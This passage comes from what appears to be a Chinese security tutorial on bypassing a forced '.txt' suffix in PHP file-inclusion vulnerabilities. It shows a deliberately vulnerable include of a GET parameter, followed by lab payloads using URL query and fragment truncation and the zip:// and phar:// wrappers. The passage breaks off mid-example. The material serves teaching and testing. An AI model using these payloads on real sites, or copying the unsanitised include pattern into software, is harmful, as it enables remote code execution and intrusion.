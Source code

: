 	<span class="token variable">$file</span> <span class="token operator">=</span> <span class="token variable">$_GET</span><span class="token punctuation">[</span><span class="token double-quoted-string string">"file"</span><span class="token punctuation">]</span><span class="token punctuation">;</span>
	<span class="token comment">//后缀</span>
	<span class="token keyword">include</span> <span class="token variable">$file</span><span class="token punctuation">.</span><span class="token double-quoted-string string">".txt"</span><span class="token punctuation">;</span>

	<span class="token function">highlight_file</span><span class="token punctuation">(</span><span class="token constant">__FILE__</span><span class="token punctuation">)</span><span class="token punctuation">;</span>
<span class="token delimiter important">?&gt;</span>
<div class="hljs-button signin" data-title="登录后复制"></div></code><ul class="pre-numbering"><li style="color: rgb(153, 153, 153);">1</li><li style="color: rgb(153, 153, 153);">2</li><li style="color: rgb(153, 153, 153);">3</li><li style="color: rgb(153, 153, 153);">4</li><li style="color: rgb(153, 153, 153);">5</li><li style="color: rgb(153, 153, 153);">6</li><li style="color: rgb(153, 153, 153);">7</li><li style="color: rgb(153, 153, 153);">8</li></ul></pre>
<h3><a name="t20"></a><a name="t20"></a><a id="url_315"></a>一、利用url</h3>
<p>在远程文件包含漏洞（RFI）中，可以利用query或fragment来绕过后缀限制。<br>
可参考此文章：<a href="https://www.jianshu.com/p/2c07fbb52b45" rel="nofollow">URI’s fragment</a></p>
<p>完整url格式：</p>
<pre class="prettyprint"><code class="has-numbering" style="position: unset;" onclick="mdcp.signin(event)">protocol :// hostname[:port] / path / [;parameters][?query]#fragment
<div class="hljs-button signin" data-title="登录后复制"></div></code><ul class="pre-numbering"><li style="color: rgb(153, 153, 153);">1</li></ul></pre>
<p><strong>query(?)</strong></p>
<ul>
<li>[访问参数]   <code>?file=http://localhost:8081/phpinfo.php?</code></li>
<li>[拼接后]  <code>?file=http://localhost:8081/phpinfo.php?.txt</code></li>
</ul>
<p><strong>Example：</strong>（设在根目录下有flag2.txt文件）<br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2019021223193847.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20190212231954243.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
<strong>fragment(#)</strong></p>
<ul>
<li>[访问参数]   <code>?file=http://localhost:8081/phpinfo.php%23</code></li>
<li>[拼接后]  <code>?file=http://localhost:8081/phpinfo.php#.txt</code></li>
</ul>
<p><strong>Example：</strong>（设在根目录下有flag2.txt文件）<br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20190212232732360.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2019021223280591.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"></p>
<h3><a name="t21"></a><a name="t21"></a><a id="_337"></a>二、利用协议</h3>
<p>利用zip://和phar://，由于整个压缩包都是我们的可控参数，那么只需要知道他们的后缀，便可以自己构建。</p>
<p><strong>zip://</strong></p>
<ul>
<li>[访问参数]   <code>?file=zip://D:\zip.jpg%23phpinfo</code></li>
<li>[拼接后]  <code>?file=zip://D:\zip.jpg#phpinfo.txt</code></li>
</ul>
<p><strong>phar://</strong></p>
<ul>
<li>[访问参数]   <code>?file=phar://zip.zip/phpinfo</code></li>
<li>[拼接后]  <code>?file=phar://zip.zip/phpinfo.txt</code></li>
</ul>
<p><strong>Example：</strong><br>
(我的环境根目录中有php.zip压缩包，内含phpinfo.txt，其中包含代码&lt;?php phpinfo();?&gt;)）<br>
所以分别构造payload为：</p>
<p><code>?file=zip://D:\PHPWAMP_IN3\wwwroot\php.zip%23phpinfo</code><br>
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20190212234709548.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMTgxNDI4,size_16,color_FFFFFF,t_70"><br>
<code>?file=phar://../../php.zip/phpinfo</code><br>